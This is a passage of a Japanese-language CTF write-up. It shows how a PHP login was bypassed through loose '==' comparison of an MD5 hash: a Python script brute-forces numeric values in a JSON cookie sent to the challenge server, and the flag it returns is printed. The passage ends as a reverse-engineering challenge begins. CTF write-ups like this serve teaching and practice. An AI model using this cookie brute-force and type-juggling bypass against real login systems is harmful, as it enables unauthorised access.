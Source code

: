 クライアントが投げたハッシュとサーバ側で設定されているパスワードの MD5 ハッシュが `==` で真になればよいようです。とりあえず、適当なハッシュを投げて偽になった場合に表示されるヒントを取得しましょう。

```
$ python
>>> import requests
>>> requests.get('https://gameserver.zajebistyc.tf/admin/login.php', cookies={'otadmin': '{"hash": "A"}'}).content
b'I CAN EVEN GIVE YOU A HINT XD \n0006464640640064000646464640006400640640646400\n'
```

`0-9a-f` が `ord($c) & 0xc0` に通されたときにどのような値になるかも確認してみましょう。

```
>>> ' '.join(str(ord(c) & 0xc0) for c in '0123456789abcdef')
'0 0 0 0 0 0 0 0 0 0 64 64 64 64 64 64'
```

`0-9` は `0` に、`a-f` は `64` になるようです。つまり `MD5($cfg_pass)` は最初の 3 文字が `0-9` でその後に `a-f` が続く文字列のようです。

PHP ではゆるい比較 (`==`) を使った場合に `1 == '1hoge'` が真になることを利用して、`{"hash": 123}` のように `$session_data['hash']` に数値が入るようにして、総当たりをしてみましょう。

```python
import requests

for x in range(1000):
  if x % 100 == 0:
    print x
  r = requests.get('https://gameserver.zajebistyc.tf/admin/login.php', cookies={
    'otadmin': '{"hash": %d}' % x
  }).content
  if 'HINT XD' not in r:
    print x, r
```

```
$ python2 solve.py
︙
389 Congratulations! p4{wtf_php_comparisons_how_do_they_work}
```

フラグが得られました。

```
p4{wtf_php_comparisons_how_do_they_work}
```

## Re
### Elementary (57)
> Elementary, my dear Watson.
> 添付ファイル: elementary

`elementary` がどのようなファイルか `file` で確認してみましょう。

```
>file elementary
elementary: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d5989f8d294badf15acaa157984968eea75f1fce, not stripped
```
